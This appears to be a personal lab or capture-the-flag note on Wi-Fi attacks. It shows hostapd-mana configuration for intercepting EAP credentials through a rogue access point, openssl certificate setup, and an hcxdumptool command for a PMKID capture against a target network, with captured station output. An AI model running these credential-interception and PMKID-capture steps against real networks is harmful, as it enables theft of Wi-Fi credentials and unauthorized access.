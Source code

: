 ```
mana_wpe=1 : enables WPE mode for EAP credentials interception  
mana_eapsuccess=1 : enable EAP success messages
```

Prep hostapd.eap_user file
```
* PEAP,TTLS,TLS,MD5,GTC
"t" TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP "1234test" [2]
```

Now prep all authentication files (https://github.com/sensepost/hostapd-mana/wiki/Creating-PSK-or-EAP-Networks)

```
openssl genrsa -out server.key 2048
```

```
openssl req -new -sha256 -key server.key -out csr.csr
```

```
openssl req -x509 -sha256 -days 365 -key server.key -in csr.csr -out server.pem
```

```
ln -s server.pem ca.pem
```

```
openssl dhparam 2048 > dhparam.pem
```

Directory contents after creating all required authentication files
![[Pasted image 20230909035808.png]]

Make sure to stop wlan0mon


Now to run hostapd-mana

![[Pasted image 20230909040921.png]]

No data

Trying a PMKID attack as I saw this note - [Wi-Fi Hacking, Part 11: The PMKID Attack (hackers-arise.com)](https://www.hackers-arise.com/post/wi-fi-hacking-part-11-the-pmkid-attack)

![[Pasted image 20230909041444.png]]
BSSID                    STATION               PWR     Rate    Lost    Frames  Notes  Probes
02:13:37:BE:EF:03  16:1B:5D:21:EA:EA  -29   36 -24      0       43  PMKID  Roogna
02:13:37:BE:EF:03  26:8C:FA:42:D2:99  -29    6 -18      0      198  PMKID  Roogna

Test command
```
hcxdumptool -i wlan0mon -o RoognaPMKID --enable_status=1 --filterlist_ap=target02:13:37:BE:EF:03 --filtermode=2 -c 2
```
